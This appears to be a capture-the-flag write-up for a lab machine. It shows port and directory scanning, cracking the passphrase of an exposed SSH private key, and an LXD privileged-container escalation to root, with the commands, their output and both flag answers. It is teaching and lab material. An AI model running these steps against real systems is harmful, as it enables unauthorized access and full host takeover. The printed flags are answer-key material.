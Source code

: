 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1 Boot2Root
### What is the user flag?
Let's begin by performing an `nmap` scan against the target.
```
$ nmap -sC -sV 10.10.223.2
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-16 09:38 IST
Nmap scan report for 10.10.223.2
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: House of danak
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.40 seconds
```
There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

Let's visit the website through the browser.

![2](https://github.com/Knign/Write-ups/assets/110326359/7595fb56-6c5a-4462-959a-4b9bdda22924)

There's really nothing of importance here.

Using `CTRL+U` we can view the source page.

![3](https://github.com/Knign/Write-ups/assets/110326359/9d7c738e-1f18-4b71-8bf5-9a3914f1c58b)

So we know that there is a user called `john`.

We can use `gobuster` to find other web pages that might be useful.
```
$ gobuster dir -u http://10.10.223.2 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.223.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 2762]
/robots.txt           (Status: 200) [Size: 33]
/secret               (Status: 301) [Size: 311] [--> http://10.10.223.2/secret/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.223.2/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
The `/secret` page seems interesting, let's go there.

![4](https://github.com/Knign/Write-ups/assets/110326359/5337a972-eaeb-4559-bcf1-f580570b881c)

Let's get the `secretKey`.

![5](https://github.com/Knign/Write-ups/assets/110326359/0cf52dc6-98b2-4a7c-9d88-559dca31c30f)

It seems to be the private key of the `john` user we saw before.
We can use `ssh2john` to create a hash file.
```
$ ssh2john secretKey > secretKey_hash 
```
Now we can use `john` to crack the hashes.
```
$ john secretKey_hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (secretKey)     
1g 0:00:00:00 DONE (2023-12-16 10:01) 4.347g/s 2295p/s 2295c/s 2295C/s stupid..red123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Let's change the permissions of the `secretKey`.
```
$ chmod 600 secretKey
$ ls -l
total 8
-rw------- 1 kunal kunal 1766 Dec 16 10:03 secretKey
-rw-r--r-- 1 kunal kunal 2461 Dec 16 10:00 secretKey_hash
```
Now we are all set to login through SSH as the `john` user.
```
$ ssh -i secretKey john@10.10.223.2
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 16 04:34:22 UTC 2023

  System load:  0.0               Processes:           97
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 32%               IP address for eth0: 10.10.223.2
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
We can now read the user flag.
```
john@exploitable:~$ cat user.txt 
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```
### Answer
```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

&nbsp;

### What is the root flag?
Let's check what groups `john` is a part of.
```
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
On searching for a while we can find the following article that explains how to escalate the root privilege by exploiting the features of LXD.

#### Commands to be run on the attacker machine:
```
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo ./build-alpine
$ python3 -m http.server
```

#### Commands to be run on the target machine:
```
john@exploitable:/tmp$ wget http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
--2023-12-16 05:12:53--  http://10.17.48.138:8000/alpine-v3.19-x86_64-20231216_1041.tar.gz
Connecting to 10.17.48.138:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3646460 (3.5M) [application/gzip]
Saving to: ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’

alpine-v3.19-x86_64-20231216_1041.tar.gz                   100%[========================================================================================================================================>]   3.48M   490KB/s    in 8.7s    

2023-12-16 05:13:02 (410 KB/s) - ‘alpine-v3.19-x86_64-20231216_1041.tar.gz’ saved [3646460/3646460]

john@exploitable:/tmp$ lxc image import alpine-v3.19-x86_64-20231216_1041.tar.gz --alias myimage
Image imported with fingerprint: 8d217b63453d877763142d3cfdf5bb25ad94c2ef132da82eab9c314fc5f74741
john@exploitable:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 8d217b63453d | no     | alpine v3.19 (20231216_10:41) | x86_64 | 3.48MB | Dec 16, 2023 at 5:16am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
john@exploitable:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
john@exploitable:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
john@exploitable:/tmp$ lxc start ignite
john@exploitable:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
```
We can now locate the `root.txt` file using the `find` command.
```
~ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
```
Let's get the root flag.
```
~ # cat /mnt/root/root/root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
### Answer
```
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
